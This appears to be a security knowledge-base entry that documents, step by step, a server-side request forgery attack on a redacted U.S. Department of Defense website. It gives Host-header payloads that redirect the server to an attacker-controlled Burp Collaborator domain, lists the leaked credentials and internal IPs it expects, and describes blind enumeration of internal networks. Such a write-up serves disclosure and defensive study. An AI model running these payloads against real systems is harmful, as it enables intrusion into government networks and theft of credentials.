

---
tags:
  - ssrf
  - host-header
  - dod
  - internal-leak
  - blind-ssrf
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/Burp-Collaborator]]'
tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
verified: false
platforms:
  - Web
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Send-Normal-HTTP-Request-to-Target]]'
  - '[[procedures/Modify-Host-Header-to-Trigger-SSRF]]'
  - '[[procedures/Observe-Incoming-Connections-on-Collaborator]]'
  - '[[procedures/Identify-Internal-DNS-Lookups-from-DoD-IP]]'
  - '[[procedures/Perform-Blind-SSRF-for-Internal-Host-Enumeration]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Active Scanning]]'
updated_at: '2025-12-14T03:53:38.048Z'
description: >-
  Multi-stage SSRF attack exploiting Host header parsing in a DoD website to
  redirect connections to attacker-controlled servers, leaking internal IPs,
  headers, and enabling blind enumeration of military networks.
id: e7b366b6-a4dd-4bfe-8e89-8f90153004b8
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Active Scanning]]'
---
# SSRF via Host Header Manipulation to Leak DoD Internal Infrastructure

Multi-stage attack chain demonstrating SSRF exploitation on a U.S. Department of Defense website, where improper Host header parsing allows redirection to attacker-controlled hosts, leading to leakage of sensitive internal information and blind reconnaissance of DoD infrastructure.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/Burp-Collaborator]]

### Target Environment

- Web platform
- Port 80 (HTTP)
- Services: Web server with ASP tech stack (inferred from session cookies)

### Initial Access Requirements

- Network access to the public DoD website (www.████████)
- No credentials required
- Attacker must control a domain for out-of-band interactions (e.g., Burp Collaborator)

## Detailed Attack Procedures

### Step 1: Send Normal HTTP Request to Target
procedure: [[procedures/Send-Normal-HTTP-Request-to-Target]]

**Objective**: Establish baseline behavior by sending a standard HTTP GET request to the target DoD website.

**Instructions**: Use [[commands/normal-http-get-to-target]] to simulate a legitimate browser request:

```http
GET / HTTP/1.1
Host: www.████████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/-;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: mt=rid=6130; ASPSESSIONIDQABQSQCS=GNPLOPOCDIGPIKHGFMDDBLBG; googtrans=/en/zh-TW
Connection: close
Upgrade-Insecure-Requests: 1
```

**Expected Output**: Standard HTTP response from the legitimate host without any redirection or leakage.

**Success Indicators**:
- Valid response received from www.████████
- No errors or unusual behavior observed

### Step 2: Modify Host Header to Trigger SSRF
procedure: [[procedures/Modify-Host-Header-to-Trigger-SSRF]]

**Objective**: Exploit the SSRF vulnerability by altering the Host header to include an '@' delimiter, redirecting the server to connect to the attacker's controlled host.

**Instructions**: Intercept the request with Burp Suite and execute [[commands/ssrf-host-header-get]]:

```http
GET / HTTP/1.1
Host: www.█████████:80@██████████.burpcollaborator.net
Pragma: no-cache
Cache-Control: no-cache, no-transform
Connection: close
```

**Expected Output**: The target server connects to the Burp Collaborator domain instead of the intended host.

**Success Indicators**:
- Incoming connection observed on Burp Collaborator
- Leaked headers (e.g., cookies, authorization) received

### Step 3: Observe Incoming Connections on Collaborator
procedure: [[procedures/Observe-Incoming-Connections-on-Collaborator]]

**Objective**: Capture and analyze the SSRF-induced connections to the attacker-controlled server for leaked sensitive data.

**Instructions**: Monitor the Burp Collaborator payload and review the received request using [[commands/observe-collaborator-connection]] (inherent to tool monitoring):

**Expected Output**: GET / request to collaborator domain with headers like Authorization: Basic ████████, X-BlueCoat-Via, and source IP (e.g., 1.1.1.1 redacted).

**Success Indicators**:
- HTTP request received on collaborator
- Sensitive headers such as cookies and auth tokens leaked

### Step 4: Identify Internal DNS Lookups from DoD IP
procedure: [[procedures/Identify-Internal-DNS-Lookups-from-DoD-IP]]

**Objective**: Detect and attribute DNS resolution attempts originating from internal DoD networks to confirm infrastructure exposure.

**Instructions**: Analyze collaborator logs for DNS interactions and use WHOIS lookup on observed IPs with [[commands/identify-dns-lookup]] (manual verification):

**Expected Output**: DNS resolution from IP 214.72.0.2, confirmed as DoD-owned via WHOIS.

**Success Indicators**:
- Internal IP (e.g., 214.72.0.2) identified in logs
- WHOIS confirms government/military ownership

### Step 5: Perform Blind SSRF for Internal Host Enumeration
procedure: [[procedures/Perform-Blind-SSRF-for-Internal-Host-Enumeration]]

**Objective**: Use blind SSRF techniques to enumerate internal DoD hosts via timeouts, SSL errors, and tunneling to intranet resources.

**Instructions**: Modify requests to target internal IPs with [[commands/blind-ssrf-enumeration]]:

```http
GET / HTTP/1.1
Host: www.██████████:80@████████
Pragma: no-cache
Cache-Control: no-cache, no-transform
Connection: close
```

**Expected Output**: SSL errors or DNS timeouts indicating successful connections to internal hosts like NIPERNET.

**Success Indicators**:
- Timeouts on known military IPs confirm host existence
- Potential tunneling to internal DoD networks observed

## Attack Chain Summary

### Key Achievements

1. Successful redirection of server connections to attacker-controlled host
2. Leakage of sensitive headers, cookies, and internal DoD IP addresses
3. Blind enumeration of internal infrastructure via out-of-band interactions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Active Scanning]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Reconnaissance]]

---
*Last updated: 2023-10-01T00:00:00Z*
